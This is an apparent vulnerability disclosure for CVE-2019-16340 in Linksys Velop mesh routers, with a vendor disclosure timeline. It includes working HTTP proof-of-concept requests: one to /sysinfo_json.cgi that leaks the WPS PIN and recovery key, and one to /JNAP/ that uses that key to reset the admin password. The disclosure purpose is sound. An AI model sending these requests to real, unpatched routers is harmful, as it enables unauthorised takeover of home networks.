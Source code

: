 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [CVE-2019-16340]
---
```


## Linksys Velop Authentication Bypass


### Affected Software
Firmware version:	Before 1.1.8.192419
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
CVE-2019-16340
During our analysis, we found a critical bug in its firmware and this vulnerability may allow an unauthenticated user get administrator privilege. The problem is caused by the API of **/sysinfo_json.cgi**, requesting this url will leak sensitive information and may lead to authentication bypass.
#### PoC
We could get some useful information with the PoC below:
~~~http
GET /sysinfo_json.cgi HTTP/1.1
Host: 10.158.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
~~~

~~~http
HTTP/1.1 200 OK
Connection: close
CONTENT-LANGUAGE: en
Date: Thu, 11 Oct 2012 11:09:15 GMT
Server: lighttpd/1.4.39
Content-Length: 94710

siSections="MfgData,BootData,Syscfg,Sysevent,Messages,Dmesg,Ps,MemoryInfo,CpuInfo,WifiBasicInfo,WifiRadioInfo,WifiClientInfo,WifiPoorClientInfo,WifiLegacyClientInfo,WifiAllAPInfo,WifiSameAPInfo,WifiAllCAInfo,WifiMyCAInfo,IPInfo,PingInfo,Conntrack,ConntrackTotals,ConntrackAvg,Thrulay";
var MfgData = {
 "title": "Manufacturer Data",
 "description": "This is used to manufacturer unit and in SKU API",
 "timestamp": "16:01:02.12/31/69",
 "data": [
{
.......
 "wps_pin": "wps_device_pin = 58163597",
.......
"device_recovery_key": "84667",
.......
 }
 ]
};
......
~~~
The most important value we can get is WPS PIN and Device Recovery Key. For the WPS PIN, we can use it to connect to the wifi even if the wifi password is changed when wps is enabled. Recovery key can be used to reset the admin password, we may construct the following request to change the admin password:
~~~http
POST /JNAP/ HTTP/1.1
Host: 192.168.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
Content-Length: 48
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
X-JNAP-Action: http://linksys.com/jnap/nodes/setup/SetAdminPassword

{"resetCode":"84667","adminPassword":"test1234"}
~~~
By sending this request to the router, we can successfully change the administration password to **test1234**

### Timeline

We reported the bug to the vendor in Feb,2019 and they released a patch in August:

~~~text
25 Feb 2019 03:07:55 UTC: Submitted the problem to vendor
26 Feb 2019 20:55:22 UTC: The vendor acknowledged the problem and reproduced it.
31 May 2019 12:39:01 UTC: Asked if there is any updates. No response
06 Jun 2019 03:42:03 UTC: Asked if there is any updates. 
06 Jun 2019 04:41:23 UTC: The vendor reply as: Apologies for the delay in response; the engineering team informs me that a firmware release for Velop will be released later this month. Would you like a preview of this firmware to confirm our fix?
06 Jun 2019 08:28:51 UTC: Replied : No.
25 Jul 2019 00:44:31 UTC: Asked for any updates. No response.
26 Jul 2019 18:22:12 UTC: The vendor replied: We are starting a limited rollout of the release starting tonight and if all goes well, the full release will be opened up in the first week of August. Thank you!
21 Aug 2019 03:38:42 UTC: Asked if there is any updates
23 Aug 2019 21:01:30 UTC: The vendor replied as :We have finally released a fix to address this issue: https://www.linksys.com/us/support-article?articleNum=207568. We have not applied for a CVE and do not have any plans to do so. Thank you!
26 Aug 2019 00:38:08 UTC: Asked we will apply a CVE for this issue
27 Aug 2019 17:23:51 UTC: Replied:we have no objections if you'd like to file for a CVE.
~~~
